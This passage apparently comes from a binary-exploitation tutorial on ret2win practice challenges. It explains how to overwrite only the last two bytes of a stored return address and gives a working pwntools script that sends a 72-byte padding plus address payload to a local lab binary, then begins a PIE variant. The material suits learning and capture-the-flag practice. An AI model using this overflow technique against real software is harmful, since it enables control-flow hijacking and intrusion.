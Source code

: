 Actually this is going to by more like a off-by-2 in the stored PC in the stack. Instead of overwriting all the return address we are going to overwrite **only the last 2 bytes** with `0x06c4`.

```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p16(0x06c4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```

<figure><img src="../../../.gitbook/assets/image (1209).png" alt="" width="375"><figcaption></figcaption></figure>

You can find another off-by-one example in ARM64 in [https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/](https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/), which is a real off-by-**one** in a fictitious vulnerability.

## With PIE

{% hint style="success" %}
Compile the binary **without the `-no-pie` argument**
{% endhint %}

### Off-by-2

Without a leak we don't know the exact address of the winning function but we can know the offset of the function from the binary and knowing that the return address we are overwriting is already pointing to a close address, it's possible to leak the offset to the win function (**0x7d4**) in this case and just use that offset:
